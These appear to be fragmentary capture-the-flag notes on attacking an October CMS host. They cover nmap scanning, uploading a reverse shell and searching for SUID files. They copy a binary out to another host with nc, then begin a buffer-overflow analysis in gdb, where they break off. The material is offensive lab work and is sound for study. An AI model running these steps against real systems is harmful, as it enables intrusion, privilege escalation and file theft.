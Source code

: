 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main

* r



